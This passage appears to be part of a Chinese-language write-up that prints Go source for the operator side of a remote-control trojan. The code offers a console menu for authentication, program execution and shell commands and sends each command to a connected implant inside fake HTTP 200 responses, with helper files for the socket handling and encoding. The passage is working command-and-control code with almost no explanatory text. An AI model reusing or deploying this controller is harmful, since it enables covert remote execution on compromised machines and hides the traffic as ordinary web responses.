        if data_len == 2 {
            if hex.EncodeToString(data_buf) == "0000" {
                fmt.Println("认证成功")
            }
        } else {
            fmt.Println(string(common.BytesToGB2312(data_buf)))
        }
        fmt.Println("*******************Client->Server*******************")
        common.SendCommond(conn, []byte{})
        return
    }

    text := ""
    fmt.Print("请选择需执行的功能:exit、help、auth、execute_process、shell\n>")
    reader := bufio.NewScanner(os.Stdin)
    if reader.Scan() {
        text = reader.Text()
        if text == "exit" {
            os.Exit(1)
        } else if text == "help" {
            fmt.Println("********支持功能如下********")
            fmt.Println("auth：身份验证")
            fmt.Println("execute_process：执行程序")
            fmt.Println("shell：执行shell命令")
            fmt.Println("**************************")
        } else if text == "auth" {
            fmt.Println("*******************Client->Server*******************")
            common.SendCommond(conn, []byte{0x00, 0x70, 0x00, 0x61, 0x00, 0x73, 0x00, 0x73, 0x00, 0x00, 0x00})
        } else if text == "execute_process" {
            fmt.Print(text + "指令-请输入需执行的程序路径：\n>")
            reader2 := bufio.NewScanner(os.Stdin)
            if reader2.Scan() {
                buf_command := reader2.Text()
                command := []byte{}
                command = append(command, []byte{0x01}...)
                command = append(command, common.BytesToUnicodeBytes([]byte(buf_command))...)
                command = append(command, []byte{0x00, 0x00}...)
                fmt.Println("*******************Client->Server*******************")
                common.SendCommond(conn, command)
            }
        } else if text == "shell" {
            fmt.Print(text + "指令-请输入需执行的命令：\n>")
            reader2 := bufio.NewScanner(os.Stdin)
            if reader2.Scan() {
                buf_command := reader2.Text()
                command := []byte{}
                command = append(command, []byte{0x02}...)
                command = append(command, common.BytesToUnicodeBytes([]byte(buf_command))...)
                command = append(command, []byte{0x00, 0x00}...)
                fmt.Println("*******************Client->Server*******************")
                common.SendCommond(conn, command)
            }
        }
    }
}
```

-   command.go

```plain
package common

import (
    "encoding/hex"
    "fmt"
    "net"
    "strconv"
)

func RecvHeader(conn net.Conn) []byte {
    // 接收数据缓冲区
    buffer := make([]byte, 1024)
    // 从客户端接收数据
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        fmt.Println("Error reading:", err.Error())
    }
    return buffer[:bytesRead]
}

func RecvBuf(conn net.Conn, buflen int) []byte {
    // 接收数据缓冲区
    buffer := make([]byte, buflen)
    // 从客户端接收数据
    bytesRead, err := conn.Read(buffer)
    if err != nil {
        fmt.Println("Error reading:", err.Error())
    }
    buffer_de := []byte{}
    buffer_de = append(buffer_de, buffer[:bytesRead]...)

    return buffer_de
}

func SendCommond(conn net.Conn, command []byte) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B0D0A")
    //Title:
    res2, _ := hex.DecodeString("5469746C653A20")

    response := string(res1) + string(res2) + strconv.Itoa(len(command)) + string(res_newline) + string(res_newline) + string(command)
    fmt.Println(response)
    conn.Write([]byte(response))
}
```

-   common.go

```plain
package common

import (
    "golang.org/x/text/encoding/simplifiedchinese"
    "log"
)

func BytesToGB2312(buffer []byte) []byte {
    decoder := simplifiedchinese.GB18030.NewDecoder()
    utf8Bytes, err := decoder.Bytes(buffer)
    if err != nil {
        log.Fatal(err)
    }
    return utf8Bytes
}

func BytesToUnicodeBytes(buffer []byte) []byte {
    var newBytes []byte
    for _, b := range buffer {
        newBytes = append(newBytes, b, 0x00)
    }
    return newBytes
}
```
